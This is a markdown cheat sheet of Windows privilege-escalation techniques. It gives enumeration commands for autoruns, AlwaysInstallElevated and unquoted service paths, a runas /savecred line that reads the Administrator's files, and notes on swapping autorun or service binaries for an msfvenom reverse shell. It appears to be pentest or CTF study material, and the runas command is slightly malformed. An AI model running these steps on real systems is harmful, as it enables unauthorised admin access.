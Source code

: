 ## Windows linux subsystem
```powershell
#Searching for necessary executables
where /R C:\windows bash.exe  
where /R C:\windows wsl.exe
```

## Alternative data streams
```powershell
dir /R  
more < <data stream> #To see the content
```
## Run As
```powershell
cmdkey /list  
C:\Windows\System32\runas.exe user:ACCESS\Administator savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop
```
## Auto Run
```powershell
#Some programms are running automatically on boot so we want to see if a program is auto runnning as admin to replace thar programme with one customized   
#using msfvenom to get a reverse shell
wmic startup get caption,command 2>nul
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
#You can find them using powerup.ps1
```
## AlwaysInstallElevated
```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Find using powerup.ps1 OR winPEAS
```
## SeImpersonate
> **Low level explaination:** https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
## Unquoted service path
```powershell
## Unquoted service path
#Lets suppose we have this service running
C:\FTPServer\FTP server\filezilla\filezilla.exe
#Notice the space between the 'FTP' and 'server'
#This can be exploited by putting an executable in the path
C:\FTPServer\FTP.exe
#Now after restrating the service our malicious executable will be executed.

#Mitigation -> put quotes.
'C:\FTPServer\FTP server\filezilla\filezilla.exe'
```
**Manually**
```powershell
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v '\"'
Get-wmiobject -class win32_service | select pathname
```
 **Powerup**
```powershell
#Using PowerUp.ps1
```